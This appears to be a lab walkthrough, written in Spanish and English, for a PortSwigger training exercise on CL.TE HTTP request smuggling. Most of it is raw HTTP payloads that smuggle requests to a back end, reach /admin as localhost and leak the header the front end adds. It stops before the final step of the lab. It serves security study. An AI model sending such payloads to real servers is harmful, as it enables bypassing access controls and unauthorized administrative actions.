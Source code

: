 # Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at `/admin`, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user `carlos`.

Confirmamos que prioriza content-length porque esto da timeout:
~~~
POST / HTTP/1.1\r\n
Host: Portsqiger-lab\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
3\r\n
abc\r\n
X\r\n
~~~
Así que vamos a confirmar que es un CL.TE causando un 404, le damos a update contat-lengh, en caso de que este desactivada, porque queremos que el content-length siempre incluya toda la request
```
POST / HTTP/1.1
Host: 0a25002504c5f913809699810070003a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Transfer-Encoding: chunked

0

GET /qwerty HTTP/1.1
Content-Length: 3
Host: localhost

x=
```
Luego de la x no hay nada, el content-length es 3 porque incluya un espacio en el que se concatenará la siguiente request, normal.
Si mandamos la request
```
POST / HTTP/1.1
Host: 0a25002504c5f913809699810070003a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Content-Length: 3
Host: localhost

x=
```
Obtenemos un "401 unathorized" Pero como dice la descripción, el front-end esta redescribiendo lo que buscamos, le esta agregando una cabecera para que no lo engañemos.
Poniendome a buscar un poco encontré un input en donde busca en base a un valor que le demos:
~~~
POST / HTTP/2
Host: 0a25002504c5f913809699810070003a.web-security-academy.net
Cookie: session=yCmJVE8MXXg3aBdJZrRq8jh4BDiOSngG
Content-Length: 10

search=asd
~~~
Así que concatenando una request con esta,
~~~
POST / HTTP/1.1
Host: 0a25002504c5f913809699810070003a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 98
Transfer-Encoding: chunked

0

GET / HTTP/1.1
Content-Length: 159
Content-Type: application/x-www-form-urlencoded

search=
~~~
Le damos un content length largo, que incluya toda la siguiente petición y se realizará la búsqueda con la request, mostrandonos como el frontend la rescribe
